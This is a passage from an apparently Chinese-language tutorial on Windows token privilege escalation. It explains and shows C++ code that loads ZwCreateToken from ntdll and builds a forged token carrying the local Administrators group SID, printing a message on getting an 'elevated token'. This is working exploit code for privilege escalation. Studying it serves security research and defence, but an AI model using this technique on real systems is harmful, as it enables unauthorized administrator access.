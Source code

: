 ```c++
        pTokenPrimaryGroup,
        pTokenDefaultDacl,
        &tokenSource
    );
    if (Status != STATUS_SUCCESS)
    {
        wprintf(L"[-] ZwCreateToken Error: [0x%x].\n", Status);
        goto Clear;
    }
    wprintf(L"[*] ZwCreateToken successfully and get elevated token:\n\n");

    goto Clear;

Clear:
    if (pTokenPrivileges)
        LocalFree(pTokenPrivileges);
    if (pTokenOwner)
        LocalFree(pTokenOwner);
    if (hToken)
        CloseHandle(hToken);

    return pElevatedToken;
}
```

在 `CreateUserToken()` 函数内部，首先定义了新令牌对象的属性，以保证最终生成的令牌的模拟级别为 SecurityImpersonation：

```c++
SECURITY_QUALITY_OF_SERVICE securityQualityOfService = { sizeof(securityQualityOfService), SecurityImpersonation, SECURITY_STATIC_TRACKING, FALSE };
OBJECT_ATTRIBUTES objectAttributes = { sizeof(objectAttributes), 0, 0, 0, 0, &securityQualityOfService };
```

然后定义了两个 SID，分别代表本地管理员组的 SID，和 Medium 完整想等级等级的 SID：

```c++
SID_BUILTIN LocalAdminGroupSID = { 1, 2,{ 0, 0, 0, 0, 0, 5 },{ 32, DOMAIN_ALIAS_RID_ADMINS } };
SID_INTEGRITY IntegrityMediumSID = { 1, 1, SECURITY_MANDATORY_LABEL_AUTHORITY, SECURITY_MANDATORY_MEDIUM_RID };
```

接着通过 `GetProcAddress()` API 将 `ZwCreateToken()` 函数从 ntdll.dll 模块中加载进来，需要预先定义 ZwCreateToken 类型：

```c++
// ...
typedef NTSYSAPI NTSTATUS(NTAPI* _ZwCreateToken)(
    OUT PHANDLE TokenHandle,
    IN ACCESS_MASK DesiredAccess,
    IN POBJECT_ATTRIBUTES ObjectAttributes,
    IN TOKEN_TYPE Type,
    IN PLUID AuthenticationId,
    IN PLARGE_INTEGER ExpirationTime,
    IN PTOKEN_USER User,
    IN PTOKEN_GROUPS Groups,
    IN PTOKEN_PRIVILEGES Privileges,
    IN PTOKEN_OWNER Owner,
    IN PTOKEN_PRIMARY_GROUP PrimaryGroup,
    IN PTOKEN_DEFAULT_DACL DefaultDacl,
    IN PTOKEN_SOURCE Source
);
// ...
_ZwCreateToken ZwCreateToken;
// ...
ZwCreateToken = (_ZwCreateToken)GetProcAddress(LoadLibraryA("ntdll"), "ZwCreateToken");
if (ZwCreateToken == NULL) {
    printf("[-] Failed to load ZwCreateToken: %d\n", GetLastError());
```